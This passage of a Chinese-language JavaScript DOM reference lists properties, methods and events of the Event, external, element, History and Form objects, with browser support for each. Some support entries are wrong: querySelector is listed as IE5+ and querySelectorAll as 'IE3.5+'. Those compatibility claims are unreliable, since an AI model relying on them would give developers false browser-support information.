- `wheelData` -- 获取滚轮按钮滚动距离和方向。（支持: IE5.5+） *返回值：* 整数，只读。
- `which` -- 无论按下什么种键，都返回键盘事件中键的 Unicode 值。（支持: FF1+, NN7+） *返回值：* 字符串，只读。
- `x` -- 设置或检索相对于触发事件元素的最近的定位父元素的鼠标光标水平坐标。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回值：* 整数，可读/写。
- `y` -- 设置或检索相对于触发事件元素的最近的定位父元素的鼠标光标垂直坐标。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回值：* 整数，可读/写。

## 方法

- `initEvent(eventType, bubblesFlag, cancelableFlag)` -- 初始化通过 `DocumentEvent` 接口创建的 `Event` 值。（支持: CH1+, FF1+, NN6+, O6+, SF1+）
- `initKeyEvent(eventType, bubblesFlag, cancelableFlag, view, ctrlKeyFlag, altKeyFlag, shiftKeyFlag, metaKeyArg, keyCode)` -- 初始化键盘事件。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回：* Event 对象。
- `initMouseEvent(eventType, bubblesFlag, cancelableFlag, view, detailVal, screenX, screenY, clientX, clientY, ctrlKeyFlag, altKeyFlag, shiftKeyFlag, metaKeyFlag, button, relatedTarget)` -- 在鼠标事件创建后对其进行初始化。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回：* Event 对象。
- `initUIEvent(eventType, bubblesFlag, cancelableFlag, view, detailVal)` -- 在 UI 事件创建后对其进行初始化。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `preventDefault()` -- 取消事件（如果该事件是可以取消的）。（支持: CH1+, FF1+, NN6+, O6+, SF1+）
- `stopPropagation()` -- 停止事件在 DOM 中继续进一步传播。（支持: CH1+, FF1+, NN6+, O5+, SF1+）

# 外部对象引用

外部对象是浏览器访问原生代码的访问点。当 Internet Explorer 作为嵌入组件使用时，它是页面与托管该页面的程序之间通信的方式。外部对象还支持一些用于日常使用的功能，例如在 IE 中安装搜索提供程序和加速器。有关这些功能的更多解释，请参阅第 22 章。

## 属性

- `menuArguments` -- 返回触发键菜单的窗口对象。（支持: IE4+） *返回：* 只读。

## 方法

- `AddChannel(url)` -- 显示对话框，让用户添加频道，或在已安装的情况下更改通道 URL。已弃用。（支持: IE5, IE5.5, IE6）
- `AddDesktopComponent(sURL, sType [, iLeft] [, iTop] [, iWidth] [, iHeight])` -- 将网站或图像添加到 Microsoft Active Desktop。（支持: IE5+）
- `AddFavorite(sURL [, sTitle])` -- 询问用户是否想要将 URL 添加到他们的收藏列表中。（支持: IE5+）
- `AddSearchProvider(engineURL)` -- 安装搜索提供程序。（支持: FF2+, IE7+, O9+, SF2+）
- `AddService(URL)` -- 安装加速器。（支持: IE8+）
- `AutoCompleteSaveForm(oForm)` -- 将指定的表单保存到 AutoComplete 存储区域。（支持: IE5+）
- `AutoScan(sUserQuery, sURL [, sTarget])` -- 尝试通过完成模板传递指定的查询来连接 Web 服务器。（支持: IE5+）
- `ContentDiscoveryReset()` -- 重置与页面相关的订阅、搜索提供程序和 Web Slice（Web 切片）列表。（支持: IE8+）
- `ImportExportFavorites(bImportExport, sImportExportPath)` -- 处理 IE 收藏的导入和导出。已弃用。（支持: IE5, IE5.5）
- `InPrivateFilteringEnabled()` -- 检测用户是否启用了隐私过滤（仅限 IE）。（支持: IE8+）
- `IsSearchProviderInstalled(sUrl)` -- 确定用户是否安装了搜索提供程序。（支持: FF2+, IE7+, O9+, SF2+）
- `IsServiceInstalled(URL, Verb)` -- 确定用户是否安装了加速器。（支持: IE8+）
- `IsSubscribed(sURLToCDF)` -- 表示用户是否订阅了指定的频道。已弃用。（支持: IE5, IE5.5, IE6）
- `NavigateAndFind(sLocation, sQuery, sTargetFrame)` -- 跳转到指定的 URL 并选择指定的文本。（支持: IE5+）
- `ShowBrowserUI(sUI, null)` -- 打开指定的浏览器对话框。有效值包括 LanguageDialog、OrganizeFavorites、PrivacySettings 和 ProgramAccessAndDefaults。（支持: IE5+）

# 通用元素引用

这些功能被 DOM 中所有的 HTML 元素继承。

## 属性

- `accessKey` -- 对于许多元素，用于聚焦该元素的 ALT 键组合（MacOS 上为 Ctrl 键，Opera 中为 Shift-Esc 键）。（支持: CH1+, FF1+, IE4+, NN7+, O7+, SF1+） *返回：* String，读/写。
- `all[]` -- 以数组形式返回此节点下的所有子元素。（支持: IE4+） *返回：* 元素数组，只读。
- `attributes[]` -- 以数组形式返回此节点的所有属性。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* 对象数组。
- `baseURI` -- 字符串形式的基 URI。（支持: FF1+, IE5+, NN6+） *返回：* String，只读。
- `baseURIObject` -- 表示该节点基 URI 的对象。（支持: FF3+） *返回：* 对象引用，只读。
- `behaviorUrns[]` -- 分配给此节点的所有行为的 URN（统一资源名称）列表。（支持: IE5+） *返回：* 数组，只读。
- `canHaveChildren` -- 表示当前节点是否能够包含嵌套节点。（支持: IE5+） *返回：* Boolean，只读。
- `canHaveHTML` -- 表示当前节点是否能够包含 HTML 内容。（支持: IE5+） *返回：* Boolean，只读。
- `childNodes[]` -- 以数组形式返回元素的所有子节点。（支持: CH1+, FF1+, IE5+, NN6+, O8+, SF1+） *返回：* 元素数组，只读。
- `children[]` -- 以数组形式返回元素的所有子节点。（支持: IE4+, SF1+） *返回：* 元素数组，只读。
- `cite` -- 作为元素来源引用的 URL。仅用于 blockquote, q, del, 和 ins 对象。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* URL 字符串，读/写。
- `className` -- 获取和设置元素的类名。（支持: CH1+, FF1+, IE4+, NN6+, O8+, SF1+） *返回：* String，读/写。
- `clientHeight` -- 元素的内部高度。（支持: CH1+, FF1+, IE4+, NN7+, O8+, SF1+） *返回：* Integer，只读。
- `clientLeft` -- 元素左边框的宽度。（支持: IE4+） *返回：* Integer，只读。
- `clientTop` -- 元素上边框的宽度。（支持: IE4+） *返回：* Integer，只读。
- `clientWidth` -- 元素的内部宽度。（支持: CH1+, FF1+, IE4+, NN7+, O8+, SF1+） *返回：* Integer，只读。
- `contentEditable` -- 表示节点是否可以编辑。默认值为继承。（支持: CH1+, IE5.5+, SF1+） *返回：* Boolean，读/写。
- `currentStyle` -- 持有由全局样式表、内联样式和 HTML 属性指定的对象的级联格式和样式。（支持: IE5+） *返回：* 对象引用，只读。
- `dir` -- 获取和设置元素的方向。接受的值为 ltr 和 rtl。（支持: CH1+, FF1+, IE5+, NN6+, O8+, SF1+） *返回：* String，读/写。
- `disabled` -- 表示元素是否被禁用。（支持: IE5.5+） *返回：* Boolean，读/写。
- `document` -- 对文档对象的引用。（支持: CH1+, IE4+, SF1+） *返回：* 对象引用，只读。
- `filters[]` -- 应用于对象的 IE 样式过滤器数组。（支持: IE4+） *返回：* 数组，只读。
- `firstChild` -- 第一个直接子节点，如果该元素没有子节点则返回为 null。（支持: CH1+, FF1+, IE5+, NN6+, O8+, SF1+） *返回：* 对象引用，只读。
- `hideFocus` -- 设置或获取指示对象是否可见地显示其焦点的值。（支持: IE5.5+） *返回：* Boolean，读/写。
- `id` -- 分配给元素的标识符。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，读/写。
- `innerHTML` -- 获取/设置元素的内部标记和内容。（支持: CH1+, FF1+, IE4+, NN6+, O8+, SF1+） *返回：* String，读/写。
- `innerText` -- 获取/设置元素不带标记的文本。（支持: IE4+） *返回：* String，读/写。
- `isContentEditable` -- 表示当前元素是否被设置为可编辑。（支持: CH1+, IE5.5+, SF1+） *返回：* Boolean，只读。
- `isDisabled` -- 表示当前元素是否被设置为禁用。（支持: IE5.5+） *返回：* Boolean，只读。
- `isMultiLine` -- 表示当前元素是否能够显示多行文本。（支持: IE5.5+） *返回：* Boolean，只读。
- `isTextEdit` -- 获取是否可以使用该对象创建 IE TextRange 对象。（支持: IE4+） *返回：* Boolean，只读。
- `lang` -- 获取/设置元素属性、文本和元素内容的语言。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* String，读/写。
- `language` -- 设置或检索当前脚本编写的语言。有效值包括 JScript, javascript, vbs 和 xml。（支持: IE4+） *返回：* String，读/写。
- `lastChild` -- 最后一个直接子节点，如果该元素没有子节点则返回为 null。（支持: CH1+, FF1+, IE5+, NN6+, O8+, SF1+） *返回：* 对象引用，只读。
- `localName` -- 元素的限定名称部分。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* String，只读。
- `name` -- 获取和设置元素的名称。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* String，属性。
- `namespaceURI` -- 节点的命名空间 URI，如果未指定则返回 null。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回：* String，只读。
- `nextSibling` -- 树中紧跟在给定元素之后的节点，如果没有兄弟节点则返回 null。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* 对象，只读。
- `nodeName` -- 节点的名称。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* String，只读。
- `nodeType` -- 表示节点类型的数字。对于元素始终为 1。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `nodeValue` -- 节点的值。对于元素始终为空字符串。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* String，读/写。
- `offsetHeight` -- 元素的布局高度。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `offsetLeft` -- 元素相对于 `offsetParent` 的左偏移量。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `offsetParent` -- 计算偏移量的父元素。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* 对象，只读。
- `offsetTop` -- 元素相对于 `offsetParent` 的上偏移量。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `offsetWidth` -- 元素的布局宽度。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `outerHTML` -- 包含元素的 HTML 内部标记。（支持: CH1+, FF1+, IE6+, NN6+） *返回：* String，读/写。
- `outerText` -- 包含元素的文本内容。（支持: CH1+, FF1+, IE6+） *返回：* String，读/写。
- `ownerDocument` -- 元素所在的文档。（支持: CH1+, FF1+, IE4+, NN6+） *返回：* 对象，只读。
- `parentElement` -- 元素的父元素，如果没有父元素则返回 null。（支持: CH1+, FF1+, IE4+） *返回：* 对象，只读。
- `parentNode` -- 节点的父节点。（支持: CH1+, FF1+, IE4+） *返回：* 对象，只读。
- `prefix` -- 节点不可指定的命名空间前缀。（支持: IE5+, NN6+） *返回：* String，只读。
- `previousSibling` -- 树中紧跟在给定元素之前的节点，如果没有兄弟节点则返回 null。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* 对象，只读。
- `readyState` -- 对象的当前状态。包括 uninitialized, loading, interactive, complete。（支持: IE4+） *返回：* String，只读。
- `recordNumber` -- 对象在数据中的序数。（支持: IE4+） *返回：* Integer，只读。
- `runtimeStyle` -- 浏览器的默认样式。（支持: IE5+） *返回：* 对象，只读。
- `scrollHeight` -- 元素的滚动高度。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `scrollLeft` -- 获取或设置左滚动量。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `scrollTop` -- 获取或设置上滚动量。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `scrollWidth` -- 元素的滚动宽度。（支持: CH1+, FF1+, IE5+, NN6+, SF1+） *返回：* Integer，只读。
- `sourceIndex` -- 在整个文档元素列表中的数字索引。（支持: IE4+） *返回：* Integer，只读。
- `style` -- 访问元素的样式对象。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 对象，读/写。
- `tabIndex` -- 控制元素的数字标签顺序。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* Integer，读/写。
- `tagName` -- 给定元素的标签名称。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* String，只读。
- `textContent` -- 获取并设置元素及其所有后代的文本内容。（支持: FF2+） *返回：* String，读/写。
- `title` -- 当鼠标悬停在元素上时显示的工具提示提示字符串。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* String，读/写。
- `uniqueID` -- 获取对象的自动生成的唯一标识符。（支持: IE5+, NN6+, O7+, SF1+） *返回：* String，只读。
- `unselectable` -- 指定元素不可被选择。（支持: IE5.5+） *返回：* String Constant，读/写。

## 方法

- `addBehavior(url)` -- 将 IE 行为附加到元素上。（支持: IE5+） *返回：* 。
- `addEventListener(eventType, listenerFunction, useCapture)` -- 为元素上的特定事件类型注册事件处理器。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `appendChild(elementNode)` -- 将节点作为此元素的最后一个子节点插入。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* DOM 节点。
- `applyElement(elementNode[, type])` -- 使元素成为另一个元素的子或父元素。（支持: IE5+）
- `attachEvent(eventName, functionReference)` -- 将指定的函数绑定到事件，以便当事件在对象上触发时，该函数就会被调用。（支持: IE5+） *返回：* 布尔值。
- `blur()` -- 使元素失去焦点并触发 `onblur` 事件。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `clearAttributes()` -- 移除对象上的所有属性和值。（支持: IE5+）
- `click()` -- 模拟点击并触发 `onclick` 事件。（支持: CH1+, FF1+, IE4+, NN2+, O3+, SF1+）
- `cloneNode(bool)` -- 从文档层次结构中复制一个指向对象的引用。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* DOM 节点。
- `componentFromPoint(x,y)` -- 通过特定事件返回指定坐标处的组件。（支持: IE5+） *返回：* 字符串。
- `contains(elementReference)` -- 检查给定元素是否包含在对象内。（支持: IE4+） *返回：* 布尔值。
- `createControlRange(param)` -- 为文本选择创建一个 `controlRange`。（支持: IE5+） *返回：* 整数。
- `detachEvent(eventName, functionReference)` -- 将指定的函数从事件中解绑，以便当事件在对象上触发时，该函数停止接收通知。（支持: IE5+） *返回：* 布尔值。
- `dispatchEvent(eventObject)` -- 向 DOM 中的此节点分发事件。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回：* 布尔值。
- `doScroll(scrollAction)` -- 模拟对滚动条组件的点击。（支持: IE5+）
- `dragDrop()` -- 启动拖放事件。（支持: IE5.5+） *返回：* 布尔值。
- `fireEvent(eventType[, eventObjectReference])` -- 允许在该元素上触发几乎任何事件。（支持: IE5.5+） *返回：* 布尔值。
- `focus()` -- 给当前元素键盘焦点，并触发 `onfocus` 事件。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `getAdjacentText(position)` -- 返回相邻文本字符串。（支持: IE5+） *返回：* 字符串。
- `getAttribute(attrName[, caseSensitive])` -- 从当前节点获取指定命名属性的值。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串。
- `getAttributeNode(attrName)` -- 从当前节点获取指定命名属性的节点表示。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* 对象。
- `getAttributeNodeNS()` -- 从当前节点获取具有指定名称和命名空间的属性的节点表示。（支持: FF1+, NN6+） *返回：* 对象。
- `getAttributeNS(nameSpace, localName)` -- 从当前节点获取具有指定名称和命名空间的属性值。（支持: FF1+, NN6+） *返回：* 对象引用。
- `getBoundingClientRect()` -- 获取一个指定一组 `TextRectangle` 对象集合边界的对象。（支持: IE5+） *返回：* 对象。
- `getClientRects()` -- 获取一组矩形，描述客户端区域内一个对象或范围内的内容布局。每个矩形描述单行。（支持: IE5+） *返回：* 对象数组。
- `getElementsByTagName(tagName)` -- 根据指定的元素名称获取一组对象。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* 元素数组。
- `getElementsByTagNameNS(nameSpaceURI, localName)` -- 从当前元素获取所有具有特定标签名称和命名空间的后代元素。（支持: FF1+, NN6+） *返回：* 元素数组。
- `getExpression(attributeName)` -- 获取给定属性的表达式。（支持: IE5+） *返回：* 字符串。
- `hasAttribute(attributeName)` -- 确定是否存在指定名称的属性。（支持: CH1+, FF1+, IE8+, NN6+, SF1+） *返回：* 布尔值。
- `hasAttributeNS(nameSpaceURI, localName)` -- 检查元素是否具有指定命名空间下的属性。（支持: FF1+, NN6+） *返回：* 布尔值。
- `hasAttributes()` -- 检查元素是否具有任何属性。（支持: CH1+, FF1+, NN6+, SF1+） *返回：* 布尔值。
- `hasChildNodes()` -- 检查元素是否具有任何子节点。（支持: CH1+, FF1+, IE5+, NN6+）
- `insertBefore(newNode, oldNode)` -- 将新节点作为旧节点的前节点插入。（支持: IE5+）
- `insertAdjacentHTML(location, element)` -- 在指定位置插入元素。（支持: IE4+）
- `insertAdjacentElement(location, element)` -- 在指定位置插入元素。（支持: IE5+）
- `isSupported(feature, version)` -- 测试 DOM 是否支持特定功能。（支持: IE5+）
- `normalize()` -- 合并相邻文本以产生归一化的对象。（支持: FF1+, NN6+）
- `querySelector([selectors])` -- 返回匹配指定选择器的第一个元素。（支持: IE5+） *返回：* DOM 节点。
- `querySelectorAll([selectors])` -- 返回所有匹配指定选择器的元素列表。（支持: IE3.5+） *返回：* 数组（或 NodeList）。
- `releaseCapture()` -- 从对象上释放鼠标捕获。（支持: IE5+）
- `removeAttribute(attributeName)` -- 从元素上移除属性。（支持: IE4+）
- `removeAttributeNode(attributeNode)` -- 从对象上移除属性对象节点。（支持: IE5+）
- `removeAttributeNS()` -- 从当前节点移除具有指定名称和命名空间的属性。（支持: FF1+, NN6+）
- `removeChild(node)` -- 从对象上移除子节点。（支持: IE5+）
- `removeEventListener(eventType, listenerFunction, useCapture)` -- 从元素上移除事件监听器。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `removeExpression(attributeName)` -- 移除属性表达式。（支持: IE5+） *返回：* 布尔值。
- `replaceAdjacentText(location, text)` -- 替换元素相邻的文本。（支持: IE5+） *返回：* 字符串。
- `replaceChild(newNodeElement, oldNodeElement)` -- 用新元素元素替换子元素。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回：* DOM 节点。
- `replaceNode(newNodeObject)` -- 用另一个元素替换对象。（支持: IE5+） *返回：* DOM 节点。
- `scrollIntoView(topAlignFlag)` -- 使对象进入视图，并在窗口顶部或底部对齐。（支持: CH1+, FF1+, IE4+, NN7+, O7+, SF2+）
- `setActive()` -- 将对象设置为激活状态但不赋予焦点。（支持: IE5.5+）
- `setAttribute(attributeName, value[, caseSensitive])` -- 设置指定属性的值。（支持: CH1+, FF1+, IE4+, NN6+, O8+, SF1+）
- `setAttributeNode(attributeNode)` -- 将属性对象节点作为对象的一部分。（支持: CH1+, FF1+, IE6+, NN6+, O8+, SF1+） *返回：* 对象。
- `setAttributeNodeNS(attributeNode)` -- 从当前节点设置具有指定名称和命名空间的属性节点表示。（支持: FF1+, NN6+） *返回：* 对象。
- `setCapture(containerBoolean)` -- 将鼠标捕获设置为当前文档对象。（支持: IE5+）
- `setExpression(propertyName, expression[, lang])` -- 为指定对象设置表达式。有效的语言包括 JScript、VBScript 和 JavaScript。（支持: IE5+）
- `swapNode(otherNodeElement)` -- 交换文档层次结构中两个对象的位置。（支持: IE5+） *返回：* DOM 节点。

## 事件

- `onactivate` -- 返回 `onactivate` 事件的处理代码。（支持：IE5.5+）
- `onafterupdate` -- 返回 `onafterupdate` 事件的处理代码。（支持：IE4+）
- `onbeforecopy` -- 返回 `onbeforecopy` 事件的处理代码。（支持：CH1+, IE5+, SF1+）
- `onbeforecut` -- 返回 `onbeforecut` 事件的处理代码。（支持：CH1+, IE5+, SF1+）
- `onbeforeeditfocus` -- 返回 `onbeforeeditfocus` 事件的处理代码。（支持：IE5+）
- `onbeforepaste` -- 返回 `onbeforepaste` 事件的处理代码。（支持：CH1+, IE5+, SF1+）
- `onbeforeupdate` -- 返回 `onbeforeupdate` 事件的处理代码。（支持：IE4+）
- `onblur` -- 返回 `blur` 事件的处理代码。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `oncellchange` -- 返回 `oncellchange` 事件的处理代码。（支持：IE5+）
- `onclick` -- 返回 `onclick` 事件的处理代码。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `oncontextmenu` -- 当右键菜单被触发时触发。（支持：CH1+, FF1+, IE5+, NN7+, O7+, SF1+）
- `oncontrolselect` -- 返回 `oncontrolselect` 事件的处理代码。（支持：IE5.5+）
- `oncopy` -- 返回 `oncopy` 事件的处理代码。（支持：CH1+, FF3+, IE5+, O7+, SF1+）
- `oncut` -- 返回 `oncut` 事件的处理代码。（支持：CH1+, FF3+, IE5+, O8+, SF1+）
- `ondataavailable` -- 返回 `ondataavailable` 事件的处理代码。（支持：IE4+）
- `ondatasetchanged` -- 返回 `ondatasetchanged` 事件的处理代码。（支持：IE4+）
- `ondatasetcomplete` -- 返回 `ondatasetcomplete` 事件的处理代码。（支持：IE4+）
- `ondblclick` -- 返回 `ondblclick` 事件的处理代码。（支持：CH1+, FF1+, IE4+, NN4+, O7+, SF1+）
- `ondeactivate` -- 返回 `ondeactivate` 事件的处理代码。（支持：CH1+, IE5.5+）
- `ondrag` -- 返回 `ondrag` 事件的处理代码。（支持：IE5+, SF1+）
- `ondragend` -- 返回 `ondragend` 事件的处理代码。（支持：IE5+, SF1+）
- `ondragenter` -- 返回 `ondragenter` 事件的处理代码。（支持：IE5+, SF1+）
- `ondragleave` -- 返回 `ondragleave` 事件的处理代码。（支持：IE5+, SF1+）
- `ondragover` -- 返回 `ondragover` 事件的处理代码。（支持：IE5+, SF1+）
- `ondragstart` -- 返回 `ondragstart` 事件的处理代码。（支持：IE5+, SF1+）
- `ondrop` -- 返回 `ondrop` 事件的处理代码。（支持：IE5+, SF1+）
- `onerrorupdate` -- 返回 `onerrorupdate` 事件的处理代码。（支持：IE4+）
- `onfilterchange` -- 返回 `onfilterchange` 事件的处理代码。（支持：IE4+, SF1+）
- `onfocus` -- 返回 `onfocus` 事件的处理代码。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `onfocusin` -- 返回 `onfocusin` 事件的处理代码。（支持：IE6+）
- `onfocusout` -- 返回 `onfocusout` 事件的处理代码。（支持：IE6+）
- `onkeydown` -- 当按下键时触发。（支持：CH1+, FF1+, IE4+, NN4+, O7+, SF1+）
- `onkeypress` -- 当按被按下并释放时触发。（支持：CH1+, FF1+, IE4+, NN4+, O7+, SF1+）
- `onkeyup` -- 当释放键时触发。（支持：CH1+, FF1+, IE4+, NN4+, O7+, SF1+）
- `onlayoutcomplete` -- 返回 `onlayoutcomplete` 事件的处理代码。（支持：IE5.5+）
- `onlosecapture` -- 返回 `onlosecapture` 事件的处理代码。（支持：IE5+）
- `onmousedown` -- 当鼠标按钮被按下时触发。（支持：CH1+, FF1+, IE4+, NN4+, O7+, SF1+）
- `onmouseenter` -- 返回 `onmouseenter` 事件的处理代码。（支持：IE5.5+）
- `onmouseleave` -- 返回 `onmouseleave` 事件的处理代码。（支持：IE5.5+）
- `onmousemove` -- 当窗口注册鼠标移动时触发。
- `onmouseout` -- 当鼠标离开元素时触发。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `onmouseover` -- 当鼠标进入元素时触发。（支持：CH1+, FF1+, IE3+, NN2+）
- `onmouseup` -- 当鼠标按钮释放时触发。（支持：CH1+, FF1+, IE4+, NN4+, O7+, SF1+）
- `onmousewheel` -- 当滚动滚轮时触发。（支持：CH1+, FF1+, IE4+, NN4+）
- `onmove` -- 返回 `move` 事件的处理代码。（支持：IE5+）
- `onmoveend` -- 返回 `moveend` 事件的处理代码。（支持：IE5+）
- `onmovestart` -- 返回 `movestart` 事件的处理代码。（支持：IE5.5+）
- `onpaste` -- 返回 `paste` 事件的处理代码。（支持：CH1+, FF3+, IE5+, O7+, SF1+）
- `onpropertychange` -- 返回 `propertychange` 事件的处理代码。（支持：IE5+）
- `onreadystatechange` -- 返回 `readyState` 事件的处理代码。（支持：CH1+, FF1+, IE4+, NN4+, O7+）
- `onresize` -- 返回 `resize` 事件的处理代码。（支持：CH1+, FF1+, IE4+, NN4+, O7+）
- `onresizeend` -- 返回 `resizeend` 事件的处理代码。（支持：IE5.5+）
- `onresizestart` -- 返回 `resizestart` 事件的处理代码。（支持：IE5.5+）
- `onrowenter` -- 返回 `rowenter` 事件的处理代码。（支持：IE4+）
- `onrowexit` -- 返回 `rowexit` 事件的处理代码。（支持：IE4+）
- `onrowsdelete` -- 返回 `rowsdelete` 事件的处理代码。（支持：IE5+）
- `onrowsinserted` -- 返回 `rowsinserted` 事件的处理代码。（支持：IE5+）
- `onscroll` -- 返回 `scroll` 事件的处理代码。（支持：IE4+）
- `onselectstart` -- 返回 `selectstart` 事件的处理代码。（支持：CH1+, IE4+, SF1+）

# History 对象引用

History 对象包含了用户在当前浏览器中访问的 URL 列表以及导航该列表的功能。它实际上是 `window` 对象通过一个成员，而不是 DOM 本身。

## 属性

- `current` -- 返回会话历史中的活动项。在内容环境中不支持（请使用 `location.href`）。（支持：FF1+, NN4+） *返回值：String*
- `length` -- 返回元素中的项数。对于表单，这是表单元素；对于 SELECT 框，这是 OPTION 字段；对于 History 对象，这是条目数。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：Integer，只读*
- `next` -- 返回会话历史中的下一个项。在内容环境中不支持。（支持：FF1+, NN4+） *返回值：String*
- `previous` -- 返回会话历史中的上一个项。在内容环境中不支持。（支持：FF1+, NN4+） *返回值：String*

## 方法

- `back()` -- 在窗口历史中后退一个。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `forward()` -- 在窗口历史中向前移动一个文档。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `go(relativeNumber | URL orTitleSubstring)` -- 从会话历史加载页面，通过其相对于当前页的相对位置进行识别。（支持：CH1+, FF1+, IE3+, NN2+, O5+, SF1+）

# HTML Form

此对象对应 HTML `<form>` 标签。可以通过 document 对象上的 `forms[]` 集合或通过其他 DOM 访问器访问表单。参阅第 14 章：表单获取详细讨论。

## 属性

- `acceptCharset` -- 设置或获取输入数据的字符编码列表，处理表单的服务器必须接受这些编码。（支持: CH1+, FF1+, IE5+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。
- `action` -- action 获取并设置 `FORM` 元素的动作属性。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* URL 字符串，读/写。
- `autocomplete` -- 设置或获取对象的自动完成（输入提示）状态。（支持: FF1+, IE5+） *返回：* 字符串，读/写。
- `elements[]` -- 表单控件元素的数组。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回：* 元素数组，读/写。
- `encoding` -- 设置或获取表单的 MIME 编码。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* MIME 类型字符串，读/写。
- `enctype` -- 设置或获取表单的 MIME 编码。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* MIME 类型字符串，读/写。
- `length` -- 返回元素中的项数。对于表单，这是表单元素数量；对于 `SELECT` 框，这是 OPTION 字段；对于 History 对象，这是条目数。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 整数，只读。
- `method` -- 获取并设置提交表单使用的 HTTP 方法。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串常量，读/写。
- `name` -- 获取并设置 name 属性。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，读/写。
- `target` -- 获取并设置动作的目标（用于渲染输出的帧）。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，读/写。

## 方法

- `submit()` -- 提交表单。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `reset()` -- 将表单值重置为初始状态。（支持: CH1+, FF1+, IE4+, NN3+, O4+, SF1+）

## 事件

- `onreset` -- 当用户点击表单上的重置按钮时触发。（支持: CH1+, FF1+, IE4+, NN3+, O4+, SF1+）
- `onsubmit` -- 当表单提交时触发。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

## FIELDSET 和 LEGEND 对象

`FIELDSET` 对象表示允许你将相关的表单控件和标签分组的元素。`LEGEND` 对象允许为字段组分配一个标题。

### 属性

- `align` -- 设置或获取对象与相邻文本的对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 字符串，读/写。
- `form` -- 对 `FORM` 对象的引用。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* DOM 节点，读/写。

## LABEL 对象

`LABEL` 对象表示具有相同名的元素。标签用于将语义信息附加到表单控件上。

### 属性

- `form` -- 对 `FORM` 对象的引用。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* DOM 节点，读/写。
- `htmlFor` -- 指明此标签适用于哪个表单元素。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 对象引用，读/写。

## 通用 INPUT 对象

以下属性适用于所有输入类型的表单控件。

### 属性

- `acceptCharset` -- 设置或获取输入数据的字符编码列表，处理表单的服务器必须接受这些编码。（支持: CH1+, FF1+, IE5+, NN6+, O6+, SF1+） *返回：* 字符串，只读。
- `action` -- action 获取并设置 `FORM` 元素的动作属性。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，读/写。
- `autocomplete` -- 设置或获取对象的自动完成（输入提示）状态。（支持: FF1+, IE5+） *返回：* 布尔值，读/写。
- `elements[]` -- 表单控件元素的数组。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回：* 元素数组，只读。
